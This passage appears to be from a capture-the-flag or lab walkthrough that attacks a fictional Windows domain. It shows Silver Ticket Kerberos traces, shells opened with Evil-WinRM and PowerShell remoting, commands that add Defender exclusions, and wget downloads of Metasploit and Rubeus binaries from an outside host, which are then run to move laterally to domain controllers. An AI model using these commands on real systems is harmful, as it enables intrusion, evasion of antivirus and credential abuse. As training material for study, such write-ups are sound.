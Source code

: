```bash
[1685714] 1715897648.811352: Getting credentials attacker@FACTORIES.MAMMAMIA.LOCAL -> HTTP/factws.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL using ccache FILE:attacker.ccache
[1685714] 1715897648.811353: Retrieving attacker@FACTORIES.MAMMAMIA.LOCAL -> krb5_ccache_conf_data/start_realm@X-CACHECONF: from FILE:attacker.ccache with result: -1765328243/Matching credential not found (filename: attacker.ccache)
[1685714] 1715897648.811354: Retrieving attacker@FACTORIES.MAMMAMIA.LOCAL -> HTTP/factws.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL from FILE:attacker.ccache with result: 0/Success
[1685714] 1715897648.811356: Creating authenticator for attacker@FACTORIES.MAMMAMIA.LOCAL -> HTTP/factws.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL, seqnum 732832184, subkey aes256-cts/6123, session key aes256-cts/801E
[1685714] 1715897649.047283: Read AP-REP, time 1715897647.811357, subkey aes256-cts/00A7, seqnum 1580936937
*Evil-WinRM* PS C:\Users\Amministratore.FACTORIES\Documents> whoami
factories.mammamia.local\attacker
*Evil-WinRM* PS C:\Users\Amministratore.FACTORIES\Documents> hostname
factws
*Evil-WinRM* PS C:\Users\Amministratore.FACTORIES\Documents> 
```

##### Linux + PowerShell

In my opinion, PowerShell seems to provide the best experience for interacting with WinRM using the `Enter-PSSession` cmdlet. To install PowerShell on Linux, you can use [this guide](https://learn.microsoft.com/en-us/powershell/scripting/install/install-ubuntu?view=powershell-7.4). We must also install the WinRM PowerShell module on Linux. Run `pwsh` as root and install the module using the following command:

```powershell
PS /home/user/MammaMia> Install-Module -Name PSWSMan -Scope AllUsers
PS /home/user/MammaMia> Install-WSMan
```

With the `KR5BCCNAME` environment variable set, we can now authenticate to the factory PC using the Silver Ticket and the `Enter-PSSession` cmdlet to get an interactive shell:

```powershell
PS /home/user/MammaMia> $SessionOpt = New-PSSessionOption -SkipCACheck:$true -SkipCNCheck:$true                         
PS /home/user/MammaMia> Enter-PSSession -UseSSL -SessionOption $SessionOpt -ComputerName factws.factories.mammamia.local
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
factories.mammamia.local\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
factws
```

> Note: `Enter-PSSession` cmdlet expects the SPN `http/factws` and not `HTTP/factws.factories.mammamia.local`.

##### Windows + PowerShell

If you are on Windows, you can use the built-in `Enter-PSSession` cmdlet to get an interactive shell. You can even use a Windows VM for this step, as long as your host with the VPN connection has IP forwarding enabled.


[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      